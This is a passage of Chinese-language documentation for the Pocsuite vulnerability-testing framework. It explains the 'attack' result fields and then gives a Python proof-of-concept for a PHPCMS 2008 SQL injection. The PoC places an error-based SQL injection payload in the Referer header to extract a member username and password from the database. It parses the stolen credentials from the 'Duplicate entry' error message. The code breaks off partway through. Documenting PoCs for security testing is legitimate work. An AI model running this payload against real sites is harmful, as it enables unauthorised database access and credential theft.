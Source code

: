 ```
                    "Password":"<regex>www(.+)com"
                  }
                }
            }
        ]
    }
}
```

attack部分和verify部分类似，比verify 部分多一个 "result".

* "result": 为输出，其类型为 dict
* "AdminInfo": 是管理员信息，此项见 [Result 说明](#resultstandard)
* "Password": 是result中 AdminInfo 中的字段，其值支持正则表达式，如果需要使用正则表达式来获取页面信息，则需要在表达式字符串前加`<regex>`

#### PoC 代码示例<a id="pocexample"></a>

#### PoC py代码示例<a id="pyexample"></a>

[phpcms_2008_/ads/include/ads_place.class.php_sql注入漏洞](http://www.seebug.org/vuldb/ssvid-62274) PoC:

```
#!/usr/bin/env python
# coding: utf-8
import re
import urlparse
from pocsuite.net import req
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register


class TestPOC(POCBase):
    vulID = '62274'  # ssvid
    version = '1'
    author = ['Medici.Yan']
    vulDate = '2011-11-21'
    createDate = '2015-09-23'
    updateDate = '2015-09-23'
    references = ['http://www.seebug.org/vuldb/ssvid-62274']
    name = '_62274_phpcms_2008_place_sql_inj_PoC'
    appPowerLink = 'http://www.phpcms.cn'
    appName = 'PHPCMS'
    appVersion = '2008'
    vulType = 'SQL Injection'
    desc = '''
        phpcms 2008 中广告模块，存在参数过滤不严，
        导致了sql注入漏洞，如果对方服务器开启了错误显示，可直接利用，
        如果关闭了错误显示，可以采用基于时间和错误的盲注
    '''
    samples = ['http://10.1.200.28/']

    def _attack(self):
        result = {}
        vulurl = urlparse.urljoin(self.url, '/data/js.php?id=1')
        payload = "1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(SELECT concat(char(45,45),username,char(45,45,45),password,char(45,45)) from phpcms_member limit 1))a from information_schema.tables group by a)b), '0')#"
        head = {
            'Referer': payload
        }
        resp = req.get(vulurl, headers=head)
        if resp.status_code == 200:
            match_result = re.search(r'Duplicate entry \'1--(.+)---(.+)--\' for key', resp.content, re.I | re.M)
```